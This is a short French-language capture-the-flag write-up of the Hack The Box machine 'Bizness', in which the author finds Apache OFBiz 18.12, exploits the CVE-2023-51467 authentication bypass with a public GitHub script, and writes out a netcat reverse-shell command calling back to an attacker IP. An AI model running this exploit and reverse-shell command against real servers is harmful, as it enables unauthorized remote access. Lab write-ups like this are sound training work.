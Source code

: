 # BIZNESS

## Process

Alors difficle de savoir par quoi commencer, même si je pense qu'aprés analyse du nmap il vas nous faire un tunel forwarding! 
Je reviens par la des que j'ai plus d'idées! <br/>

Dirseach réussi bloquer dessus car oublie de mettre `https` a la place de `http`!! rrrrrr

Alors en arrivant sur la page je vois que le site run sur `apache ofbiz release 18.12` je regarde donc sur internet et constate une vulnérabilité! La `CVE-2023-51467` est repertorier en rapport avec un bypass de password!
Je trouve un exploit github [source](https://github.com/jakabakos/Apache-OFBiz-Authentication-Bypass) avec celle ci j'exécute le code donné! et constate une proof of concept!

Ne reste plus qu'a trouver la commande a entrer pour pouvoir prendre le control de la machines!

La commande est :
```bash
python3 exploit.py --url https://bizness.htb --cmd 'nc -c bash 10.10.14.6 443'
```

J'ai maintenant donc un reverse shell et j'arrive a choper le user flag.

## Root flag

Avec un tour sur un walktrought car je suis loin d'étre asser bon pour savoir ou chercher... On me dit que je dois chercher une database derby voyons si j'arrive a me débrouiller avec ca!

J'ai complétement suivi le walktrought trouver sur le net pour faire celle ci. :((((